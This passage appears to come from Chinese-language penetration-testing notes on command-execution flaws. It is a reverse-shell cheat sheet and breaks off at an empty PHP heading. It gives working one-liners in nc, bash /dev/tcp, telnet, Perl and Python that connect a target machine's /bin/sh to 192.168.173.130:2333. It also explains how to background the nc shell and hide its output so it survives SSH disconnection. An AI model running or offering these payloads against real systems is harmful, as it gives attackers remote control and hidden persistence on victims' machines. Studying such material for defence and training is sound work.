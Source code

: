 ```````
```
可以将nc挂在靶机的后台，并且不显示任何内容
```bash
nohup nc 192.168.173.130 2333 -e /bin/sh 2>&1 /dev/null &
# nohup是将进程挂到systemd下，这样可以做到即使ssh断开，nc亦不会中断
# 2>&1 /dev/null 将任何的显示内容都隐藏
# & 将任务挂在 bash 的后台
# pstree可以看到nc挂在ssh下和systemd下
```
![image-20240228171321480](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228171321480.png)
版本问题或不支持-e可使用：

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.173.130 2333 >/tmp/f
```
## bash版本
如果客户端未安装nc(注意这个是由解析shell的bash完成，所以某些情况下不支持。)
```bash
bash -i >& /dev/tcp/192.168.173.130/2333 0>&1
```
![image-20240228171327180](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228171327180.png)
## telnet版本
当nc不可用或/dev/tcp不可用时可以考虑telnet客户端
```bash
mknod backpipe p && telnet 192.168.173.130 2333 0<backpipe | /bin/bash 1>backpipe
```
![image-20240228171331001](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228171331001.png)
## Perl版本
如果服务器环境存在perl，还可以使用perl版本
```perl
perl -e 'use Socket;$i="192.168.173.130";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
![image-20240228171335551](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228171335551.png)
另一个perl版本

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.173.130:2333");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
![image-20240228171412811](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228171412811.png)
## Python版本
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.173.130",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image-20240228172133676](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228172133676.png)
Python的另外一个版本

```python
python -c "exec(\"import socket, subprocess;s =socket.socket();s.connect(('192.168.173.130',2333))\nwhile 1: proc =subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```
![image-20240228172202882](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228172202882.png)
## PHP版本
```php
```````